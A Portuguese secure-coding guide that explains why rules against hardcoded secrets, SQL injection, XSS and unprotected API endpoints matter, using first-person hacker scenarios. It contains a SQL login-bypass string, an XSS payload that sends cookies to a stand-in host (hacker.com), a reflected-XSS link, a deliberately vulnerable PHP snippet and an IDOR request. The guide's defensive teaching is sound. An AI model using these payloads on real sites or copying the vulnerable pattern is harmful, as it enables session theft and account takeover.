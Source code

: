 # Explicação das Diretrizes de Segurança VibeCoding: Por Que Insistimos Tanto?

Este documento explica a importância de cada regra nas "Diretrizes de Segurança". Entender isso o ajudará a ver seu código da "perspectiva de um hacker" e prevenir problemas antes que ocorram.

---

## ⭐ Regras de Ouro

### 【Nunca hardcodar segredos】 & 【Usar variáveis de ambiente】 & 【Ignorar arquivos secretos】

**Por que é importante?**

Essas três regras são as leis supremas de sobrevivência do mundo digital. Seu código (especialmente ao usar Git) será copiado, compartilhado e armazenado em múltiplos lugares. Escrever senhas, chaves API e outros "segredos" diretamente no código é como tatuar a senha do cofre na sua testa - qualquer um que te veja (veja o código) pode facilmente abrir seu cofre.

**Cenário do Hacker 😈**
> Eu adoro procurar por `password`, `api_key` ou `db_connect` no GitHub. Encontrei seu projeto público e em um arquivo chamado `config.js` vi este código: `const db_password = 'Password123!';`. Perfeito! Nem preciso atacar seu site - agora posso tentar me conectar diretamente ao seu banco de dados com essa senha.

**Consequências Catastróficas 💥**

**Controle completo do serviço.** Hackers podem roubar, alterar, excluir todos os dados dos seus usuários, ou usar seus serviços API pagos para atividades ilegais, com todas as contas em seu nome.

---

## 📥 Manipulação de Entrada do Usuário

### 【Prevenir Ataques de Injeção SQL】

**Por que é importante?**

Imagine o banco de dados como um robô que só entende a linguagem SQL. Se você concatenar diretamente a entrada do usuário com seus comandos, os usuários têm a oportunidade de pronunciar seus próprios "comandos". Consultas parametrizadas dizem ao robô: "Escute, a próxima parte são **apenas dados** - não importa o conteúdo, não execute como comandos."

**Cenário do Hacker 😈**
> No campo de login do seu site, inseri `' OR '1'='1' --` como nome de usuário. Assumo que sua consulta SQL está escrita assim: `"SELECT * FROM users WHERE username = '" + userInput + "';`. Minha entrada a transformou em `SELECT * FROM users WHERE username = '' OR '1'='1' --';`. `'1'='1'` é sempre verdadeiro, então contornei a verificação de senha e fiz login com sucesso na primeira conta de usuário (geralmente o administrador).

**Consequências Catastróficas 💥**

Atacantes podem contornar o login, roubar todos os dados do banco (listas de usuários, hashes de senhas), ou até mesmo deletar o banco de dados.

### 【Prevenir Ataques de Cross-Site Scripting (XSS)】

**Por que é importante?**

Se o seu site é como um espelho que reflete diretamente o conteúdo de entrada do usuário, então os usuários podem incorporar scripts JavaScript maliciosos no conteúdo. Quando outros usuários navegam por este conteúdo, o script malicioso será executado em seus navegadores, roubando suas informações. A codificação de entidades HTML converte caracteres especiais em scripts maliciosos (como `<`, `>`) em texto simples inofensivo, tornando-os não executáveis.

**Cenário do Hacker 😈**
> Deixei um comentário na seção de comentários do seu artigo: `<script>fetch('https://hacker.com/steal?cookie=' + document.cookie)</script>`. Este texto foi armazenado no banco de dados como está. Agora qualquer usuário que ler este comentário terá seu navegador executando automaticamente este script, enviando seus cookies de login para o meu servidor. Com os cookies, posso me passar por eles para fazer login no site.

**Método de Ataque Avançado: Como o Código do Usuário A Pode Roubar os Dados do Usuário B?**

Muitas pessoas se perguntam: "O atacante não modificou meu site, então como ele pode roubar os dados de outros usuários?" Deixe-me explicar com um exemplo completo:

1. **O atacante A cria um link malicioso**
   ```
   https://yoursite.com/detail.php?id=1<script>steal()</script>
   ```

2. **O atacante engana a vítima B através de engenharia social**
   - Email: "Veja o trabalho fantástico deste fotógrafo!"
   - Posts em redes sociais, comentários em fóruns, etc.

3. **O que acontece quando a vítima B clica no link?**
   ```php
   // Seu código (vulnerável)
   <meta property="og:url" content="<?php echo $_SERVER['REQUEST_URI']; ?>">
   
   // Saída real para o navegador de B
   <meta property="og:url" content="/detail.php?id=1<script>steal()</script>">
   ```

4. **Por que eles podem roubar os dados de B?**
   - B já está autenticado no seu site
   - O script malicioso executa sob **seu domínio**, então pode:
     - Ler os cookies de B (credenciais de login)
     - Acessar o localStorage de B
     - Fazer solicitações em nome de B
     - Modificar o conteúdo da página (ex: formulários de login falsos)

**Analogia Simples**
Imagine que seu site é um banco:
- O atacante A coloca um "comprovante de saque falso" (script malicioso) no saguão do banco
- O cliente B pensa que é legítimo e insere sua senha
- A obtém a senha de B

XSS permite que atacantes coloquem "comprovantes de saque falsos" (código malicioso) no seu "saguão do banco" (site).

É por isso que você deve usar `htmlspecialchars()` - garante que toda entrada do usuário seja exibida como texto simples, não como código executável.

**Consequências Catastróficas 💥**

Roubo massivo de contas de usuário, vazamento de dados pessoais, sites infiltrados com conteúdo de phishing ou scripts de mineração.

---

## 🔐 Permissões e Autenticação

### 【Proteção de Endpoints API】

**Por que é importante?**

Interfaces frontend (UI) podem esconder botões, mas hackers nunca confiam em interfaces. Eles chamam suas APIs backend diretamente com ferramentas (como Postman, curl). Você deve assumir que cada endpoint API será atacado diretamente, então cada endpoint deve ser um guarda independente, verificando por si só a identidade e permissões dos visitantes.

**Cenário do Hacker 😈**
> Descobri que para modificar informações pessoais, o frontend envia uma requisição para `/api/user/update`. Embora eu não possa ver os botões de edição de outras pessoas, assumo que esta API distingue usuários através de `userId`. Tentei enviar uma requisição para `/api/user/update?userId=1` (ID do administrador) com os dados que queria modificar. Meu Deus, o servidor não verificou se a requisição veio de mim pessoalmente e mudou com sucesso o email do administrador!

**Consequências Catastróficas 💥**

Usuários comuns podem alterar dados de outros usuários ou até administradores, ou executar permissões que não deveriam ter, causando caos sistêmico.